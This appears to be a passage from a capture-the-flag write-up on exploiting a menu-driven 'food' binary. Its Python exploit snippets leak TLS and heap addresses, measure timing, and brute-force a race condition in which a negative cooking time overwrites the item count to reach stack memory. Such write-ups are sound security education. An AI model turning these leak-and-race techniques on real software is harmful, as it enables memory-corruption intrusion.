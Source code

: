 ```python
for i in range(0, 4):
    insertFood(i+1, 0)

deleteFood(4)
insertSpecial(0, b'A'*0x20)
r.recvuntil(b'A'*0x20)
tls_addr = u64(r.recvn(6) + b'\x00'*2)
print(hex(tls_addr))

deleteFood(4)
insertSpecial(0, b'A'*0x28)
r.recvuntil(b'A'*0x28)
heap_addr = u64(r.recvn(6) + b'\x00'*2) - 0x960
print(hex(heap_addr))

for i in range(0, 4):
    deleteFood(1)
```
<br />

### Caculating time of ds
- To create a race condition, timing is crucial.
- The race condition must occur between inserting the first and second food items.
- So, I check that part's time, and if it is X seconds, I use X/2 seconds.
<br />

```python
insertFood(1,1)
r.recvuntil(b'is ready!')
start_time = time.time()
r.recvuntil(b'+++++++++++++++++++++++')
end_time = time.time()
print(end_time - start_time)
```
<br />

### Creating race condition
- By using time which we calculate, we can make race condition.
- There's an important point to note: If successful, the number of food items is overwritten by the second food's cooking time.
- We can insert negative time also, so we can access to other stack's address by this.
<br />

```python
i = 0
while 1:
    i = i+1
    print(f"*{i}*")
    insertFood(1, 1)
    sleep(0.001)
    deleteFood(1)

    insertFood(1, -32 + 7 - 15)
    r.recvuntil(b'added.\n')
    ll = r.recvline()
    print(f"*{ll}")
    if b'empty' in ll:
        break
    deleteFood(1)
```
<br />
